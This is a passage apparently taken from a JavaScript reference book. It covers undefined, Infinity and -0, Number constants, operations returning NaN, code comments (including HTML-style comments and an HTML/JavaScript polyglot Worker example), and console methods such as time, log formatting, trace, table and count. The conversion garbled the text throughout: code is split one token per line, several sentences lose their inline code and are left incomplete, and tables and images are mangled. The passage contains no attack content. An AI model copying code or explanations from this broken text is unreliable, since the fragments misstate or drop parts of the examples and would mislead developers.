The return value of a function that doesn\'t return a value

<b>function</b>

foo

(

)

{

<b>return</b>

;

}

console.

log

(

\'is undefined?\'

,

foo

(

)

===

<b>undefined</b>

)

;

*// is undefined? true*

The value of a function argument that is declared but has been omitted
from the function call

<b>function</b>

foo

(

param

)

{

console.

log

(

\'is undefined?\'

,

param

===

<b>undefined</b>

)

;

}

foo

(

\'a\'

)

;

foo

(

)

;

*// is undefined? false*

*// is undefined? true*

<b>undefined</b> is also a property of the global window object.

*// Only in browsers*

console.

log

(

window.

<b>undefined</b>

)

;

*// undefined*

window.

hasOwnProperty

(

\'undefined\'

)

;

*// true*

Version \< 5

  
  window.<b>undefined</b>
  

  

Before ECMAScript 5 you could actually change the value of the
property to any other value potentially breaking everything.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-5">Section 3.5: Infinity and -Infinity</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

1

/

0

;

*// Infinity*

*// Wait! WHAAAT?*

  -
  Number            .   POSITIVE_INFINITY
    

  -

<b>Infinity</b> is a property of the global object (therefore a global
variable) that represents mathematical infinity. It is a reference to
>
It is greater than any other value, and you can get it by dividing by
0 or by evaluating the expression of a number that\'s so big that
overflows. This actually means there is no division by 0 errors in
JavaScript, there is Infinity!

  
  <b>Infinity</b>
  

  

There is also - which is mathematical negative infinity, and it\'s
lower than any other value.

  -
  <b>Infinity</b>   you negate <b>Infinity</b>, or get a       Number   .   NEGATIVE_INFINITY
                 reference to it in                                   
      

  -

To get -.

\-

(

<b>Infinity</b>

)

;

*// -Infinity*

Now let\'s have some fun with examples:

<b>Infinity</b>

\>

123192310293

;

*// true*

\-

<b>Infinity</b>

\<

\-

123192310293

;

*// true*

1

/

0

;

*// Infinity*

Math

.

pow

(

123123123

,

9123192391023

)

;

*// Infinity*

Number

.

MAX_VALUE

\*

2

;

*// Infinity*

23

/

<b>Infinity</b>

;

*// 0*

\-

<b>Infinity</b>

;

*// -Infinity*

\-

<b>Infinity</b>

===

Number

.

NEGATIVE_INFINITY

;

*// true*

\-

0

;

*// -0 , yes there is a negative 0 in the language*

0

===

\-

0

;

*// true*

1

/

\-

0

;

*// -Infinity*

1

/

0

===

1

/

\-

0

;

*// false*

<b>Infinity</b>

\+

<b>Infinity</b>

;

*// Infinity*

<b>var</b>

a

=

0

,

b

=

\-

0

;

a

===

b

;

*// true*

1

/

a

===

1

/

b

;

*// false*

*// Try your own!*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-6">Section 3.6: Number constants</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The Number constructor has some built in constants that can be useful

Number

.

MAX_VALUE

;

*// 1.7976931348623157e+308*

Number

.

MAX_SAFE_INTEGER

;

*// 9007199254740991*

Number

.

MIN_VALUE

;

*// 5e-324*

Number

.

MIN_SAFE_INTEGER

;

*// -9007199254740991*

Number

.

EPSILON

;

*// 0.0000000000000002220446049250313*

Number

.

POSITIVE_INFINITY

;

*// Infinity*

Number

.

NEGATIVE_INFINITY

;

*// -Infinity*

Number

.

<b>NaN</b>

;

*// NaN*

In many cases the various operators in JavaScript will break with
values outside the range of

  -
  Number    .   MIN_SAFE_INTEGER         ,   Number    .   MAX_SAFE_INTEGER
    -    -

  -

()

  -
  Number                         .     EPSILON
  - - 

  -

Note that represents the different between one and the smallest Number
greater than one, and thus the smallest possible difference between
two different Number values. One reason to use this is due to the
nature of how numbers are stored by JavaScript see Check the equality
of two numbers

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-7">Section 3.7: Operations that return NaN</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Mathematical operations on values other than numbers return NaN.

\"b\"

\*

3

\"cde\"

\-

\"e\"

\[

1

,

2

,

3

\]

\*

2

An exception: Single-number arrays.

\[

2

\]

\*

\[

3

\]

*// Returns 6*

Also, remember that the + operator concatenates strings.

\"a\"

\+

\"b\"

*// Returns \"ab\"*

Dividing zero by zero returns <b>NaN</b>.

0

/

0

*// NaN*

Note: In mathematics generally (unlike in JavaScript programming),
dividing by zero is not possible.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch3-8">Section 3.8: Math library functions that return NaN</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Generally, Math functions that are given non-numeric arguments will
return NaN.

Math

.

floor

(

\"a\"

)

  
  Math                            .       sqrt
   - 

  

The square root of a negative number returns NaN, because does not
support [imaginary](https://en.wikipedia.org/wiki/Imaginary_number) or
[complex](https://en.wikipedia.org/wiki/Complex_number) numbers.

Math

.

sqrt

(

\-

1

)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch4">Chapter 4: Comments</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch4-1">Section 4.1: Using Comments</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To add annotations, hints, or exclude some code from being executed
JavaScript provides two ways of commenting code lines
>
<b>Single line Comment //</b>
>
Everything after the // until the end of the line is excluded from
execution.

*// TODO: write more cool stuff!*

<b>function</b>

elementAt

(

event

)

{

*// Gets the element from Event coordinates*

<b>return</b>

document.

elementFromPoint

(

event.

clientX

,

event.

clientY

)

;

}

**Multi-line Comment */\*\*/***

Everything between the opening /\* and the closing \*/ is excluded
from execution, even if the opening and closing are on different
lines.

*/\**

*Gets the element from Event coordinates.*

*Use like:*

*var clickedEl = someEl.addEventListener(\"click\", elementAt, false);*

*\*/*

<b>function</b>

elementAt

(

event

)

{

<b>return</b>

document.

elementFromPoint

(

event.

clientX

,

event.

clientY

)

;

}

*/\* TODO: write more useful comments! \*/*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch4-2">Section 4.2: Using HTML comments in JavaScript (Bad practice)</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

HTML comments (optionally preceded by whitespace) will cause code (on
the same line) to be ignored by the browser also, though this is
considered <b>bad practice</b>.
>
One-line comments with the HTML comment opening sequence (\<!\):

<b>Note:</b>

the JavaScript interpreter ignores the closing characters of HTML
comments (

\\>

)

here.

*\<!\*

*A single-line comment.*

*\<!\ \\>*

Identical to using \`//\` since

*\<!\ \\>*

the closing \`\\>\` is ignored.

This technique can be observed in legacy code to hide JavaScript from
browsers that didn\'t support it:

<b>\<</b>

<b>script</b>

type

=

\"text/javascript\"

language

=

\"JavaScript\"

<b>\></b>

\<!\

/\* Arbitrary JavaScript code.

Old browsers would treat

it as HTML code. \*/

// \

<b>\></b>

<b>\<</b>

<b>/script</b>

<b>\></b>

An HTML closing comment can also be used in JavaScript (independent of
an opening comment) at the beginning of a line (optionally preceded by
whitespace) in which case it too causes the rest of the line to be
ignored:

\\>

Unreachable JS code

These facts have also been exploited to allow a page to call itself
first as HTML and secondly as JavaScript. For example:

*\<!\*

*self.postMessage(\'reached JS \"file\"\');*

*/\**

*\\>*

\<!

DOCTYPE html

\>

<b>\<</b>

<b>script</b>

<b>\></b>

var w1 = new Worker(\'#1\');

w1.onmessage = function (e) {

console.log(e.data); // \'reached JS \"file\"

}

;

<b>\<</b>

<b>/script</b>

<b>\></b>

*\<!\*

*\*/*

*\\>*

When run a HTML, all the multiline text between the \<!\ and \\>
comments are ignored, so the JavaScript contained therein is ignored
when run as HTML.

  
  self.postMessage                                         (   \...
    -

  

As JavaScript, however, while the lines beginning with \<!\ and
\\are ignored, their effect is not to escape over *multiple*
lines, so the lines following them (e.g., ) will not be ignored when
run as JavaScript, at least until they reach a *JavaScript* comment,
marked by /\* and \*/. Such JavaScript comments are used in the above
example to ignore the remaining *HTML* text (until the \\which is
also ignored as JavaScript).

# Chapter 5: Console

  
  console.dir       (   console    ). Besides the      console.memory
    -  

  

The information displayed by a [debugging/web
console](https://developer.mozilla.org/en-US/docs/Tools/Web_Console)
is made available through the multiple [methods of the console
Javascript
object](https://developer.mozilla.org/en-US/Add-ons/SDK/Tools/console)
that can be consulted through property, the methods displayed are
generally the following (taken from Chromium\'s output):
>
[assert](https://developer.mozilla.org/en-US/docs/Web/API/console/assert)
[clear](https://developer.mozilla.org/en-US/docs/Web/API/Console/clear)
[count](https://developer.mozilla.org/en-US/docs/Web/API/Console/count)
[debug](https://developer.mozilla.org/en-US/Add-ons/SDK/Tools/console#console.debug(...))
>
[dir](https://developer.mozilla.org/en-US/docs/Web/API/Console/dir)
[dirxml](https://developer.mozilla.org/en-US/docs/Web/API/Console/dirxml)
[error](https://developer.mozilla.org/en-US/docs/Web/API/Console/error)
[group](https://developer.mozilla.org/en-US/docs/Web/API/Console/group)
[groupCollapsed](https://developer.mozilla.org/en-US/docs/Web/API/Console/groupCollapsed)
[groupEnd](https://developer.mozilla.org/en-US/docs/Web/API/Console/groupEnd)
>
[info](https://developer.mozilla.org/en-US/docs/Web/API/Console/info)
[log](https://developer.mozilla.org/en-US/docs/Web/API/Console/log)
markTimeline
[profile](https://developer.mozilla.org/en-US/docs/Web/API/Console/profile)
[profileEnd](https://developer.mozilla.org/en-US/docs/Web/API/Console/profileEnd)
[table](https://developer.mozilla.org/en-US/docs/Web/API/Console/table)
[time](https://developer.mozilla.org/en-US/docs/Web/API/Console/time)
[timeEnd](https://developer.mozilla.org/en-US/docs/Web/API/Console/timeEnd)
[timeStamp](https://developer.mozilla.org/en-US/docs/Web/API/Console/timeStamp)
timeline timelineEnd
[trace](https://developer.mozilla.org/en-US/docs/Web/API/Console/trace)
[warn](https://developer.mozilla.org/en-US/docs/Web/API/Console/warn)
>
<b>Opening the Console</b>
>
In most current browsers, the JavaScript Console has been integrated
as a tab within Developer Tools. The shortcut keys listed below will
open Developer Tools, it might be necessary to switch to the right tab
after that.
>
**Chrome**
>
Opening the "Console" panel of Chrome's **DevTools**:
>
Windows / Linux: any of the following options.
>
Ctrl + Shift + J
>
Ctrl + Shift + I , then click on the "Web Console" tab **or** press
ESC to toggle the console on and off
>
F12 , then click on the "Console" tab **or** press ESC to toggle the
console on and off
>
Mac OS: Cmd + Opt + J
>
**Firefox**
>
Opening the "Console" panel in Firefox's **Developer Tools**:
>
Windows / Linux: any of the following options.
>
Ctrl + Shift + K
>
Ctrl + Shift + I , then click on the "Web Console" tab **or** press
ESC to toggle the console on and off
>
F12 , then click on the "Web Console" tab **or** press ESC to toggle
the console on and off
>
Mac OS: Cmd + Opt + K
>
**Edge and Internet Explorer**
>
Opening the "Console" panel in the **F12 Developer Tools**:
>
F12 , then click on the "Console" tab
>
**Safari**
>
Opening the "Console" panel in Safari's **Web Inspector** you must
first enable the develop menu in Safari\'s
>
Preferences

Then you can either pick \"Develop-\>Show Error Console\" from the menus
or press

⌘

\+

Option

\+

C

**Opera**
>
Opening the "Console" in opera:
>
Ctrl + Shift + I ,then click on the "Console" tab
>
**Compatibility**

  
  console.log
  

  

When using or emulating Internet Explorer 8 or earlier versions (e.g.
through Compatibility View / Enterprise Mode) the console will
**only** be defined when the Developer Tools are active, so ()
statements can cause an exception and prevent code from executing. To
mitigate this, you can check to see if the console is available before
you log:

**if**

(

**typeof**

window.

console

!==

\'undefined\'

)

{

console.

log

(

\"Hello World\"

)

;

}

Or at the start of your script you can identify if the console is
available and if not, define a null function to catch all of your
references and prevent exceptions.

**if**

(

!

window.

console

)

{

console

=

{

log

:

**function**

(

)

{

}

}

;

}

Note this second example will stop **all** console logs even if the
developer window has been opened.

  -
  console.dir                                          (    obj
    

  -

Using this second example will preclude use of other functions such as
) unless that is specifically added.
>
A browser\'s debugging console or [web
console](https://developer.mozilla.org/en-US/docs/Tools/Web_Console)
is generally used by developers to identify errors, understand flow of
execution, log data and for many other purpose at runtime. This
information is accessed through the
[console](https://developer.mozilla.org/en-US/docs/Web/API/Console)
object.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-1">Section 5.1: Measuring time - console.time()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  console.time
  

  

() can be used to measure how long a task in your code takes to run.

  
  [console.time](https://developer.mozilla.org/en-US/docs/Web/API/Console/time)   [(\   [label](https://developer.mozilla.org/en-US/docs/Web/API/Console/time)   [\])](https://developer.mozilla.org/en-US/docs/Web/API/Console/time)   [console.timeEnd](https://developer.mozilla.org/en-US/docs/Web/API/Console/timeEnd)   [(\   [label](https://developer.mozilla.org/en-US/docs/Web/API/Console/timeEnd)
                                                                                                                                                                                                                                  starts a new timer. When                                                                                                                                                                                                               
    -    

  

Calling
[\])](https://developer.mozilla.org/en-US/docs/Web/API/Console/timeEnd)
is called, the elapsed time, in

  
  time
  

  

milliseconds, since the original .() call is calculated and logged.
Because of this behavior, you can call

  -
  timeEnd   () multiple times with the same label to log the elapsed time time
            since the original .                                          
    

  -

.() call was made.
>
**Example 1:**

console.

time

(

\'response in\'

)

;

alert

(

\'Click to continue\'

)

;

console.

timeEnd

(

\'response in\'

)

;

alert

(

\'One more time\'

)

;

console.

timeEnd

(

\'response in\'

)

;

will output:

response

**in**

:

774.967ms

response

**in**

:

1402.199ms

**Example 2:**

**var**

elms

=

document.

getElementsByTagName

(

\'\*\'

)

;

*//select all elements on the page*

console.

time

(

\'Loop time\'

)

;

**for**

(

**var**

i

=

0

;

i

\<

5000

;

i

++

)

{

**for**

(

**var**

j

=

0

,

length

=

elms.

length

;

j

\<

length

;

j

++

)

{

*// nothing to do \...*

}

}

console.

timeEnd

(

\'Loop time\'

)

;

will output:

Loop time

:

40.716ms

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-2">Section 5.2: Formatting console output</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Many of the console\'s print methods can also handle C-like string
formatting, using % tokens:

console.

log

(

\'%s has %d points\'

,

\'Sam\'

,

100

)

;

  
  Sam has 100 points
  

  

Displays .
>
The full list of format specifiers in JavaScript is:

**Specifier Output**

%s Formats the value as a string

%i or %d Formats the value as an integer

%f Formats the value as a floating point value

%o Formats the value as an expandable DOM element

%O Formats the value as an expandable JavaScript object

%c Applies CSS style rules to the output string as specified by the
second parameter

**Advanced styling**
>
When the CSS format specifier (%c) is placed at the left side of the
string, the print method will accept a second parameter with CSS rules
which allow fine-grained control over the formatting of that string:
console.log(\'%cHello world!\', \'color: blue; font-size: xx-large\');
Displays:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.477777777777778in" height="0.6666666666666666in"} -->

It is possible to use multiple %c format specifiers:
>
any substring to the right of a %c has a corresponding parameter in
the print method; this parameter may be an empty string, if there is
no need to apply CSS rules to that same substring; if two %c format
specifiers are found, the 1st (encased in %c) and 2nd substring will
have their rules defined in the 2nd and 3rd parameter of the print
method respectively.
>
if three %c format specifiers are found, then the 1st, 2nd and 3rd
substrings will have their rules defined in the 2nd , 3rd and 4th
parameter respectively, and so on\...
>
console.log(\"%cHello %cWorld%c!!\", *// string to be printed*
>
\"color: blue;\", *// applies color formatting to the 1st substring*
>
\"font-size: xx-large;\", *// applies font formatting to the 2nd
substring*
>
\"/\* no CSS rule\*/\" *// does not apply any rule to the remaining
substring* );
>
Displays:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.477777777777778in" height="0.6395833333333333in"} -->

**Using groups to indent output**
>
Output can be indented and enclosed in a collapsible group in the
debugging console with the following methods:
>
[()](https://developer.mozilla.org/en-US/docs/Web/API/Console/groupCollapsed):
creates a collapsed group of entries that can be expanded through the

  
  [console.groupCollapsed](https://developer.mozilla.org/en-US/docs/Web/API/Console/groupCollapsed)
  

  

  -
  [console.group](https://developer.mozilla.org/en-US/docs/Web/API/Console/group)
  -

  -

disclosure button in order to reveal all the entries performed after
this method is invoked;
>
[()](https://developer.mozilla.org/en-US/docs/Web/API/Console/group):
creates an expanded group of entries that can be collapsed in order to
hide the entries
>
after this method is invoked.
>
The indentation can be removed for posterior entries by using the
following method:
>
[console.groupEnd()](https://developer.mozilla.org/en-US/docs/Web/API/Console/groupEnd):
exits the current group, allowing newer entries to be printed in the
parent group after this method is invoked.
>
Groups can be cascaded to allow multiple indented output or
collapsible layers within each other:

  
  Collapsed group expanded =\>

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;

<!-- {width="2.1083333333333334in" height="3.009027777777778in"} -->
<!-- {width="2.08125in" height="3.729861111111111in"} -->

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-3">Section 5.3: Printing to a browser\'s debugging console</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

A browser\'s debugging console can be used in order to print simple
messages. This debugging or [web
console](https://developer.mozilla.org/en-US/docs/Tools/Web_Console)
can be directly opened in the browser ( F12 key in most browsers 
see *Remarks* below for further information) and the log method of the
console JavaScript object can be invoked by typing the following:

console.

log

(

\'My message\'

)

;

Then, by pressing Enter , this will display My message in the
debugging console.

  
  console.log
  

  

() can be called with any number of arguments and variables available in
the current scope. Multiple

arguments will be printed in one line with a small space between them.

**var**

obj

=

{

test

:

1

}

;

console.

log

(

\[

\'string\'

\]

,

1

,

obj

,

window

)

;

The log method will display the following in the debugging console:

\[

\'string\'

\]

1

Object

{

test

:

1

}

Window

{

*/\* truncated \*/*

}

  
  console.log
  

  

Beside plain strings, () can handle other types, like arrays, objects,
dates, functions, etc.:

console.

log

(

\[

0

,

3

,

32

,

\'a string\'

\]

)

;

console.

log

(

{

key1

:

\'value\'

,

key2

:

\'another value\'

}

)

;

Displays:

Array

\[

0

,

3

,

32

,

\'a string\'

\]

Object

{

key1

:

\'value\'

,

key2

:

\'another value\'

}

Nested objects may be collapsed: console.log({ key1: \'val\', key2:
\[\'one\', \'two\'\], key3: { a: 1, b: 2 } }); Displays:

Object

{

key1

:

\'val\'

,

key2

:

Array

\[

2

\]

,

key3

:

Object

}

Certain types such as Date objects and **function**s may be displayed
differently:

console.

log

(

**new**

Date

(

0

)

)

;

console.

log

(

**function**

test

(

a

,

b

)

{

**return**

c

;

}

)

;

Displays:

Wed Dec

31

1969

19

:

00

:

00

GMT

\-

0500

(

Eastern Standard Time

)

**function**

test

(

a

,

b

)

{

**return**

c

;

}

**Other print methods**
>
In addition to the log method, modern browsers also support similar
methods:

+++
|   |   -                                                       |
|   |  |
|   |   [console                                                         |
|   | .info](https://developer.mozilla.org/es/docs/Web/API/Console/info) |
|   |   -                                                       |
|   |  |
|   |                                                                    |
|   |   -                                                       |
|   |  |
+===+====================================================================+
|   |   -                                                    |
|   |  |
|   |   [console.wa                                                      |
|   | rn](https://developer.mozilla.org/en-US/docs/Web/API/Console/warn) |
|   |   -                                                    |
|   |  |
|   |                                                                    |
|   |   -                                                    |
|   |  |
+++

-   small informative icon (ⓘ) appears on the left side of the printed
    string(s) or object(s).

-   small warning icon (!) appears on the left side. In some browsers,
    the background of the log

is yellow.

  -
  [console.error](https://developer.mozilla.org/en-US/docs/Web/API/Console/error)
  -

  -

 small times icon (⊗) appears on the left side. In some browsers, the
background of the log is

red.

[console]{.underline}

[.](https://developer.mozilla.org/en-US/docs/Web/API/Console/timeStamp)

[timeStam]{.underline}

[p](https://developer.mozilla.org/en-US/docs/Web/API/Console/timeStamp)

outputs the current time and a specified string, but is non-standard:

console.

timeStamp

(

\'msg\'

)

;

Displays:

00

:

00

:

00.001

msg

[console]{.underline}

[.](https://developer.mozilla.org/en-US/docs/Web/API/Console/trace)

[trac]{.underline}

[e](https://developer.mozilla.org/en-US/docs/Web/API/Console/trace)

outputs the current stack trace or displays the same output as the

log

method if invoked in

the global scope.

**function**

sec

(

)

{

first

(

)

;

}

**function**

first

(

)

{

console.

trace

(

)

;

}

sec

(

)

;

Displays:

first

sec

(

anonymous

**function**

)
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.477777777777778in" height="1.3243055555555556in"} -->

The above image shows all the functions, with the exception of
timeStamp, in Chrome version 56.
>
These methods behave similarly to the log method and in different
debugging consoles may render in different colors or formats.

  
  console.dir
  

  

In certain debuggers, the individual objects information can be
further expanded by clicking the printed text or a small triangle (►)
which refers to the respective object properties. These collapsing
object properties can be open or closed on log. See the for additional
information on this

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-4">Section 5.4: Including a stack trace when logging console.trace()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**function**

foo

(

)

{

console.

trace

(

\'My log statement\'

)

;

}

foo

(

)

;

Will display this in the console:

My log statement VM696

:

1

foo

@

VM696

:

1

(

anonymous

**function**

)

@

(

program

)

:

1

Note: Where available it\'s also useful to know that the same stack
trace is accessible as a property of the Error object. This can be
useful for post-processing and gathering automated feedback.

**var**

e

=

**new**

Error

(

\'foo\'

)

;

console.

log

(

e\.

stack

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-5">Section 5.5: Tabulating values - console.table()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  console.table
  

  

In most environments, () can be used to display objects and arrays in
a tabular format.
>
**For example:**

console.

table

(

\[

\'Hello\'

,

\'world\'

\]

)

;

displays like:
>
**(index) value**
>
0 \"Hello\" 1 \"world\"

console.

table

(

{

foo

:

\'bar\'

,

bar

:

\'baz\'

}

)

;

displays like:
>
**(index) value**
>
\"foo\" \"bar\" \"bar\" \"baz\"

**var**

personArr

=

\[

{

\"personId\"

:

123

,

\"name\"

:

\"Jhon\"

,

\"city\"

:

\"Melbourne\"

,

\"phoneNo\"

:

\"1234567890\"

}

,

{

\"personId\"

:

124

,

\"name\"

:

\"Amelia\"

,

\"city\"

:

\"Sydney\"

,

\"phoneNo\"

:

\"1234567890\"

}

,

{

\"personId\"

:

125

,

\"name\"

:

\"Emily\"

,

\"city\"

:

\"Perth\"

,

\"phoneNo\"

:

\"1234567890\"

}

,

{

\"personId\"

:

126

,

\"name\"

:

\"Abraham\"

,

\"city\"

:

\"Perth\"

,

\"phoneNo\"

:

\"1234567890\"

}

\]

;

console.

table

(

personArr

,

\[

\'name\'

,

\'personId\'

\]

)

;

displays like:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.477777777777778in" height="4.279166666666667in"} -->

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-6">Section 5.6: Counting - console.count()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  [console.count](https://developer.mozilla.org/en-US/docs/Web/API/Console/count)   [(\   [obj](https://developer.mozilla.org/en-US/docs/Web/API/Console/count)
  -  

  

[\])](https://developer.mozilla.org/en-US/docs/Web/API/Console/count)
places a counter on the object\'s value provided as argument. Each time
this method is

invoked, the counter is increased (with the exception of the empty
string \'\'). A label together with a number is displayed in the
debugging console according to the following format:

\[

label

\]

:

X

label represents the value of the object passed as argument and X
represents the counter\'s value.
>
An object\'s value is always considered, even if variables are
provided as arguments:

**var**

o1

=

1

,

o2

=

\'2\'

,

o3

=

\"\"

;

console.

count

(

o1

)

;

console.

count

(

o2

)

;

console.

count

(

o3

)

;

console.

count

(

1

)

;

console.

count

(

\'2\'

)

;

console.

count

(

\'\'

)

;

Displays:

1

:

1

2

:

1

:

1

1

:

2

2

:

2

:

1

Strings with numbers are converted to

Number

objects:

console.

count

(

42.3

)

;

console.

count

(

Number

(

\'42.3\'

)

)

;

console.

count

(

\'42.3\'

)

;

Displays:

42.3

:

1

42.3

:

2

42.3

:

3

Functions point always to the global

Function

object:

console.

count

(

console.

constructor

)

;

console.

count

(

**function**

(

)

{

}

)

;

console.

count

(

Object

)

;

**var**

fn1

=

**function**

myfn

(

)

{

}

;

console.

count

(

fn1

)

;

console.

count

(

Number

)

;

Displays:

\[

object

Function

\]

:

1

\[

object

Function

\]

:

2

\[

object

Function

\]

:

3

\[

object

Function

\]

:

4

\[

object

Function

\]

:

5

Certain objects get specific counters associated to the type of object
they refer to:

console.

count

(

**undefined**

)

;

console.

count

(

document.

Batman

)

;

**var**

obj

;

console.

count

(

obj

)

;

console.

count

(

Number

(

**undefined**

)

)

;

console.

count

(

**NaN**

)

;

console.

count

(

**NaN**

\+

3

)

;

console.

count

(

1

/

0

)

;

console.

count

(

String

(

1

/

0

)

)

;

console.

count

(

window

)

;

console.

count

(

document

)

;

console.

count

(

console

)

;

console.

count

(

console.

\_\_proto\_\_

)

;

console.

count

(

console.

constructor

.

**prototype**

)

;

console.

count

(

console.

\_\_proto\_\_

.

constructor

.

**prototype**

)

;

console.

count

(

Object

.

getPrototypeOf

(

console

)

)

;

console.

count

(

**null**

)

;

Displays:

**undefined**

:

1

**undefined**

:

2

**undefined**

:

3

**NaN**

:

1

**NaN**

:

2

**NaN**

:

3

**Infinity**

:

1

**Infinity**

:

2

\[

object Window

\]

:

1

\[

object HTMLDocument

\]

:

1

\[

object

Object

\]

:

1

\[

object

Object

\]

:

2

\[

object

Object

\]

:

3

\[

object

Object

\]

:

4

\[

object

Object

\]

:

5

**null**

:

1

**Empty string or absence of argument**
>
If no argument is provided while **sequentially inputting the count
method in the debugging console**, an empty string is assumed as
parameter, i.e.:

\>

console.

count

(

)

;

:

1

\>

console.

count

(

\'\'

)

;

:

2

\>

console.

count

(

\"\"

)

;

:

3

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch5-7">Section 5.7: Clearing the console - console.clear()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  console.clear
  

  

